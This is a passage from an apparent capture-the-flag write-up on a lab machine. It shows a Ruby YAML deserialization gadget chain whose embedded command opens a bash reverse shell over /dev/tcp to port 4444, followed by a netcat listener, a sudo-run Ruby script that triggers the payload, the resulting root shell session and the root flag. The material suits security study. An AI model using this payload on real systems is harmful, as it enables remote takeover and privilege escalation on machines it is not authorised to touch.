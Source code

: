 ```bash
      debug_output: &1 !ruby/object:Net::WriteAdapter
         socket: &1 !ruby/object:Gem::RequestSet
             sets: !ruby/object:Net::WriteAdapter
                 socket: !ruby/module 'Kernel'
                 method_id: :system
             git_set: "`bash -c 'bash -i >& /dev/tcp/*.*.*.*/4444 0>&1'`"
         method_id: :resolve

```
> this payload loads a chain of Ruby objects, calling Kernel.system('command') when deserializing the data

> start listener:

```bash

nc -lvnp 4444

```

> start script from 'sudo':

```bash

sudo /usr/bin/ruby /opt/update_dependencies.rb

```

> get root shell and get last flag:

```bash

root@precious:/home/henry# id
id
uid=0(root) gid=0(root) groups=0(root)
root@precious:/home/henry# cd
cd
root@precious:~# cat root.txt
cat root.txt
646ec66350043a223998a8804125a30d

```

```bash

root flag - 646ec66350043a223998a8804125a30d

```
